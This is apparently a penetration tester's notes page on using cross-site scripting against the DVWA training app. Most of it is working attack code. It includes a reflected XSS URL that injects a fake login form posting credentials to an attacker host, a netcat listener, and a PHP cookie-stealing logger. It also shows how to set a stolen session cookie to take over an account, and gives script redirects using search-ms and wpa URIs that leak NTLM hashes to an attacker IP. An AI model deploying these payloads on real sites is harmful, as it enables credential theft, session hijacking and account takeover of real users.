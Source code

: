 # Manual

TODO: Demonstrate how XSS can be leveraged by an attacker.

### Phishing via XSS (Account Takeover)

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

```html
http://dvwa.local/dvwa/vulnerabilities/xss_r/?name=<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br> Password:<br><input type="password" name="password"></br> <br><input type="submit" value="Logon"></br>
```

```
$ sudo nc -lnvp 80
```

```php
<?php
$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

Open in debug console in any web browser. You can use an extension **Cookie Editor** if you prefer.

```
document.cookie = "<cookie_session>"
```

TODO: refer to the link to use responder to grab ntlm hashes on a windows target

```javascript
<script>window.location.href = "search-ms://query=<anything>&subquery=\\\\<attacker_IP>\\<anything>.search-ms"</script>

<script>window.location.href = "search-ms://query=<anything>&crumb=location:\\\\<attacker_IP>\\<anything>"</script>

<script>window.location.href = "wpa:////<attacker_IP>/<anything>"</script>
```

TODO: Convince the user to click a link or button to add a bookmark using bookmarklet via XSS for persistence

---
## References

- [[03 - Phishing|Responder: Phishing Scenario]]

- [Computer Security Student (CSS): Reflected Cross Site Scripting Injection #1, Man-In-The-Middle Attack](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson13/index.html)

- [Abricto Security: XSS to NTLM Leak using MSQuery](https://abrictosecurity.com/from-cross-site-scripting-to-ntlm-leak-using-msquery/)

- [0xdf: Getting Creds via NTLMv2](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)